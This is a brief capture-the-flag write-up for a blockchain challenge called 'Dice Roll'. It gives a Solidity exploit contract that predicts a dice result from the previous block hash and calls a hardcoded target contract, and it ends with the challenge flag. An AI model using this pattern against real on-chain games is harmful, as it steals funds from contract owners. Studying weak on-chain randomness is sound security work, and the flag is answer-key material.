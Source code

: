 ## Dice Roll 擲骰仔

need to guess number generated using block number<br>
=> google with source code<br>
=> find this is code from other CTF<br>
=> write bot following old writeup<br>

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface DiceRollInterface {
    function roll(uint256 _guess) external returns (bool);
}

/*
 * @custom:dev-run-script ./scripts/deploy_with_ethers.ts
 */
contract Exploit {
    uint256 lastHash;
    uint256 ram = 2023;
    DiceRollInterface victim = DiceRollInterface(0x7a0B9f9A1AB0fa2CEcBD30AA4C07A70242F67143);

    function Attack() public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        if (lastHash == blockValue) {
         revert();
        }
        lastHash = blockValue;
        uint256 diceRoll = blockValue / ram % 6;
        return victim.roll(diceRoll);
    }
}
```

PUCTF24{n0_r3n4omn3ss_1n_bl0ckch41n_vuLptYG7wexbBQ8ZvtYhGU2MdW4uT7po}
